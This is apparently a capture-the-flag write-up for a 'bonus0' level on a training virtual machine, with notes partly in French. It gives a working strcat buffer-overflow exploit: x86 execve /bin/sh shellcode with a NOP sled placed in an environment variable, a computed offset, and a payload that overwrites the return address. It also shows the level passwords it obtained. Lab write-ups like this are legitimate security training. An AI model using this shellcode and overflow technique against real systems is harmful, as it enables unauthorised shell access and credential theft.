 # Bonus 0
*password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*

## Analyze
```
$ scp -P 4242 bonus0@192.168.56.108:bonus0 binary/
```
~uVar2 => inverse chaque bit
```
    *(undefined2 *)(str + (~uVar2 - 1)) = 32;
```
32 = `space`\
put a space at the end of input1
ex: if no overflow output = "input1`space`input2"

## Buffer overflow : strcat exploit

- "reduce" shellcode :
```
$ scp -P 4242 bonus0/Ressources/getenv.c bonus0@192.168.56.108:/tmp/
```
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ cd /tmp
$ gcc getenv.c
$ ./a.out
0xbffff83f
```
- overflow on the input 2
- compute offset : 9

```
$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\x3f\xf8\xff\xbf" + "\x42" * 8' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0 
...
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
